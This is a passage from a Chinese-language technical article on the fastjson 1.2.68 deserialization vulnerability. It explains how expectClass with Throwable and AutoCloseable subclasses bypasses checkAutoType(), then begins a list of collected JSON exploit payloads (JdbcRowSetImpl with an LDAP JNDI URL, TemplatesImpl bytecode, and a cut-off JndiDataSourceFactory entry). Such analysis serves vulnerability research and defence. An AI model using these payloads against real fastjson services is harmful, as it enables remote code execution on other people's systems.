 ### 8. fastjson-1.2.68

在 1.2.47 版本漏洞爆发之后，官方在 1.2.48 对漏洞进行了修复，在 `MiscCodec` 处理 Class 类的地方，设置了cache 为 false ，并且 `loadClass` 重载方法的默认的调用改为不缓存，这就避免了使用了 Class 提前将恶意类名缓存进去。

这个安全修复为 fastjson 带来了一定时间的平静，直到 1.2.68 版本出现了新的漏洞利用方式。

> 影响版本：`fastjson <= 1.2.68`
> 描述：利用 expectClass 绕过 `checkAutoType()` ，实际上也是为了绕过安全检查的思路的延伸。主要使用 `Throwable` 和 `AutoCloseable` 进行绕过。

版本 1.2.68 本身更新了一个新的安全控制点 safeMode，如果应用程序开启了 safeMode，将在 `checkAutoType()` 中直接抛出异常，也就是完全禁止 autoType，不得不说，这是一个一劳永逸的修复方式。

![](https://javasec.oss-cn-hongkong.aliyuncs.com/images/1616569998850.png)

但与此同时，这个版本报出了一个新的 autoType 开关绕过方式：利用 expectClass 绕过  `checkAutoType()`。

在 `checkAutoType()` 函数中有这样的逻辑：如果函数有 `expectClass` 入参，且我们传入的类名是 `expectClass` 的子类或实现，并且不在黑名单中，就可以通过 `checkAutoType()` 的安全检测。

![](https://javasec.oss-cn-hongkong.aliyuncs.com/images/1616575145371.png)

接下来我们找一下 `checkAutoType()` 几个重载方法是否有可控的 `expectClass` 的入参方式，最终找到了以下几个类：
- `ThrowableDeserializer#deserialze()`
- `JavaBeanDeserializer#deserialze()`

`ThrowableDeserializer#deserialze()` 方法直接将 `@type` 后的类传入 `checkAutoType()` ，并且 expectClass 为 `Throwable.class`。

![](https://javasec.oss-cn-hongkong.aliyuncs.com/images/1616590581075.png)

通过 `checkAutoType()` 之后，将使用 `createException` 来创建异常类的实例。

![](https://javasec.oss-cn-hongkong.aliyuncs.com/images/1616591945228.png)

这就形成了 `Throwable` 子类绕过 `checkAutoType()` 的方式。我们需要找到 `Throwable` 的子类，这个类的 getter/setter/static block/constructor 中含有具有威胁的代码逻辑。

与 `Throwable` 类似地，还有 `AutoCloseable` ，之所以使用 `AutoCloseable` 以及其子类可以绕过 `checkAutoType()` ，是因为 `AutoCloseable` 是属于 fastjson 内置的白名单中，其余的调用链一致，流程不再赘述。


## 四、payload

以下为部分在各个途径搜集的 payload，版本自测：

JdbcRowSetImpl
```json
{
    "@type": "com.sun.rowset.JdbcRowSetImpl",
    "dataSourceName": "ldap://127.0.0.1:23457/Command8",
    "autoCommit": true
}
```
TemplatesImpl
```json
{
	"@type": "com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl",
	"_bytecodes": ["yv66vgA...k="],
	'_name': 'su18',
	'_tfactory': {},
	"_outputProperties": {},
}
```
JndiDataSourceFactory
```json
{
    "@type": "org.apache.ibatis.datasource.jndi.JndiDataSourceFactory",
```